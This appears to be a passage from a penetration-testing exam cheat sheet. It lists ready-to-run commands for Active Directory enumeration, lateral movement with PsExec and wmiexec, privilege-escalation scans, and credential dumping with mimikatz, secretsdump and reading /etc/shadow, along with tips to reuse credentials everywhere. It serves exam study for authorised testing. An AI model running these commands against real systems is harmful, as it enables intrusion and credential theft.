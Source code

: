 - **Windows Enumeration**
```bash
net user /domain > netuser-output.txt
net group "Domain Admins" /domain > netgroup-output.txt
dsquery * -limit 100 > dsquery-output.txt
```
*What to look for:* Usernames, group memberships, admin accounts.  
*What to do next:* Target admins for attacks, try password reuse.

- **Lateral Movement**
```bash
PsExec.exe \\target.com -u user -p pass cmd > psexec-output.txt
wmiexec.py domain/user:pass@target.com > wmiexec-output.txt
```
*What to look for:* Successful remote command execution.  
*What to do next:* Use new access to escalate privileges or dump more credentials.

**What to do next:**
- Crack dumped hashes (see next section).
- Use found creds for lateral movement.

**Exam Tips:**
- Document all users, groups, and shares you find.
- Try all credentials everywhere.

---

## 5. Exploitation & Post-Exploitation

**Goal:** Get a shell and escalate privileges to root/Administrator. Dump credentials, establish persistence, and recon again.

- **Linux Privilege Escalation**
```bash
./linpeas.sh > linpeas-output.txt
find / -perm -4000 2>/dev/null > suid-output.txt
crontab -l > crontab-output.txt
```
*What to look for:* SUID binaries, cron jobs, kernel exploits, misconfigurations.  
*What to do next:* Try privilege escalation exploits, check for writable SUID files or cron jobs.

- **Windows Privilege Escalation**
```bash
winPEAS.exe > winpeas-output.txt
```
*What to look for:* Misconfigurations, vulnerable services, credentials.  
*What to do next:* Use findings to escalate privileges.

- **Credential Dumping**
```bash
mimikatz > mimikatz-output.txt
secretsdump.py -just-dc-user domain/user:pass@dc-ip > secretsdump-output.txt
samdump2 > samdump2-output.txt
cat /etc/shadow > shadow-output.txt
```
*What to look for:* Password hashes, cleartext credentials.  
*What to do next:* Crack hashes, use credentials for lateral movement or privilege escalation.
